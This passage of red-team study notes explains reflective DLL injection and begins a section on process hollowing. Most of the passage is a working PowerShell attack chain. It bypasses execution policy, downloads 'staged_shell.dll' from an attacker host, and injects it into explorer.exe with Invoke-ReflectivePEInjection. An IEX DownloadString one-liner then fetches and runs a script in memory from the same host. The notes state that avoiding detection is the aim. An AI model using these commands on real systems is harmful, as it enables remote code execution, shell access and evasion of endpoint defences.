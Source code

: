 ## 5.3.1 Reflective DLL injection theory

Reflective DLL injection is a library injection technique in which the concept of reflective programming is employed to perform the loading of a library from memory into a host process. As such the library is responsible for loading itself by implementing a minimal [Portable Executable (PE)](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format) file loader. It can then govern, with minimal interaction with the host system and process, how it will load and interact with the host.

In order to implement reflective DLL injection, we could write custom code to essentially recreate and improve upon the functionality of LoadLibrary by reuse existing code to execute these techniques 

The ultimate goal of this technique is to maintain the essential functionality of `LoadLibraryA` while avoiding the write to disk and avoiding detection by tools such as Process Explorer.

## 5.3.2 Reflective DLL Injection in PowerShell

Using this script [Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1) to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process

This script produces an error but does not affect the functionality of the script and can be ignored.

Reflective_DLL_Injection_in_PowerShell.ps1
```powershell
PowerShell -ExecutionPolicy Bypass

# load the DLL into a byte array and retrieve the "explorer" process ID
$bytes = (New-Object System.Net.WebClient).DownloadData('http://10.0.0.123/staged_shell.dll') 
$procid = (Get-Process -Name explorer).Id

# Import module
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1

# supply the byte array (-PEBytes) and process ID (-ProcId) and execute the script.
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

Practice: Create a small script and host that file in Web Server. -> downloads and executes it directly from memory.

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.123/Reflective_DLL_Injection_in_PowerShell.ps1')
```

# 5.4 Process Hollowing

References:
- https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations
- https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1055-process-injection/process-hollowing
- https://github.com/m0n0ph1/Process-Hollowing
